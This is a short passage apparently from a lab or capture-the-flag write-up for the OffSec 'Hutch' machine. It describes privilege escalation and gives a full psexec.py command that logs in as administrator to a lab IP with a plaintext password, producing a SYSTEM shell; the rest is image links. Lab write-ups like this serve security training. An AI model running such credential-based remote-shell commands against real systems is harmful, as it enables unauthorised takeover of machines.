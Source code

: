 ![](Images/Pasted%20image%2020221019012818.png)

Using the obtained administrator credentials, privilege escalation was achieved by logging in with psexec.py as the administrator: python psexec.py hutch.offsec/administrator:',G4$4Yk-2n&x(]'@192.168.142.122. This provided a shell running as nt authority\system.

![](Images/Pasted%20image%2020221019012951.png)

---

